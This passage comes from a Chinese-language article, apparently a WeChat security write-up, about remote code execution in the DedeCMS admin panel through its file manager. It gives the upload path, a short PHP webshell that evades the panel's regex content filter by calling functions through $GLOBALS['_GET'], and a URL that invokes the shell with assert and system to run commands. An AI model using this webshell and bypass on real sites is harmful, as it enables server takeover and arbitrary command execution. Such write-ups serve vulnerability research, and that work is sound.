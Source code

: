 ![](https://gitee.com/fuli009/images/raw/master/public/20230616222219.png)

配置文件内容

![](https://gitee.com/fuli009/images/raw/master/public/20230616222220.png)

比较有意思的是这里没有做转义，依旧可以实现RCE

##### RCE2

文件上传

> /dede/file_manage_view.php?fmdo=newfile&activepath=/uploads/uploads

![](https://gitee.com/fuli009/images/raw/master/public/20230616222221.png)

这里可以直接上传php文件，并没有做限制

![](https://gitee.com/fuli009/images/raw/master/public/20230616222222.png)

但是后台有校验文件内容

![](https://gitee.com/fuli009/images/raw/master/public/20230616222223.png)

一句话直接被拦，回头看代码

![](https://gitee.com/fuli009/images/raw/master/public/20230616222224.png)

这里是有`disable_function`以及正则的，所以所有的文件上传就是围绕如何`绕过`

    
    
    <?php  
    $a = $GLOBALS["_GET"];  
    $b = $GLOBALS["_GET"];  
    $a['test1']($b['test2'])  
    ?>

这里只要是绕过正则，都可以，免杀的一句话都没问题。

> http://dedecms.org:8016/uploads/shell.php

![](https://gitee.com/fuli009/images/raw/master/public/20230616222225.png)

当然，这里使用`assert`执行跟php版本有关

>
> http://dedecms.org:8016/uploads/shell.php?test1=assert&&test2=system(%22ipconfig%22);

![](https://gitee.com/fuli009/images/raw/master/public/20230616222226.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

